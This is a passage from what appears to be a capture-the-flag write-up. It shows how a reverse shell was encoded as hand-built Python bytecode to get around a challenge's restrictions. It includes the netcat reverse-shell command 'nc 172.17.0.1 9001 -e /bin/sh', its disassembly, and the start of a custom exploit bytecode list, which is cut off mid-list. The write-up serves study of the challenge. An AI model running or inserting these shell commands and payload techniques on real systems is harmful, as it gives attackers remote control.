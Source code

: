 We didn't spend much time on the script which brute forces a response which results in an md5 hash with 6 leading zeros when added to the given challenge.

### Reverse shell as Python bytecode

At first, we tried the inbuilt compiler to do the hard work for us:

```
In [2]: plugin = compile("import os;os.system('nc 172.17.0.1 9001 -e /bin/sh')", "", "exec")

In [3]: plugin.co_code
Out[3]: b'd\x00d\x01l\x00Z\x00e\x00\xa0\x01d\x02\xa1\x01\x01\x00d\x01S\x00'
```

Which results in the following operations:

```
In [4]: import dis
   ...: dis.disassemble(plugin)
  1           0 LOAD_CONST               0 (0)
              2 LOAD_CONST               1 (None)
              4 IMPORT_NAME              0 (os)
              6 STORE_NAME               0 (os)
              8 LOAD_NAME                0 (os)
             10 LOAD_METHOD              1 (system)
             12 LOAD_CONST               2 ('nc 172.17.0.1 9001 -e /bin/sh')
             14 CALL_METHOD              1
             16 POP_TOP
             18 LOAD_CONST               1 (None)
             20 RETURN_VALUE
```

But viewing the disassembled code highlighted a few problems:

1. We do not have access to the constants `0` and `None` (we can only create string constants by storing keys)
2. The `nc` command is too long to fit into a single key

So we didn't get around crafting our own code:

```
# This is the index where we will later store the nc command
nc_index = ord("b")
co_names = ["len", "list", "print", "os", "system", "decode"]

exploit_asm = [
    # Get length of empty list to push 0 on the stack
    ("BUILD_LIST", 0),
    # Use NOP as arg to simplify compiler
    ("GET_LEN", 0x09),
    # Invoke print() to push None onto the stack
    ("LOAD_NAME", co_names.index("print")),
    ("CALL_FUNCTION", 0),
    # Import os
    ("IMPORT_NAME", co_names.index("os")),
    # Invoke os.system()
    ("LOAD_METHOD", co_names.index("system")),
    # Decode first batch of nc command
    ("LOAD_CONST", nc_index),
    ("LOAD_METHOD", co_names.index("decode")),
    ("CALL_METHOD", 0),
    # Decode second batch of nc command
    ("LOAD_CONST", nc_index + 1),
    ("LOAD_METHOD", co_names.index("decode")),
    ("CALL_METHOD", 0),
    # Decode third batch of nc command
    ("LOAD_CONST", nc_index + 2),
    ("LOAD_METHOD", co_names.index("decode")),
```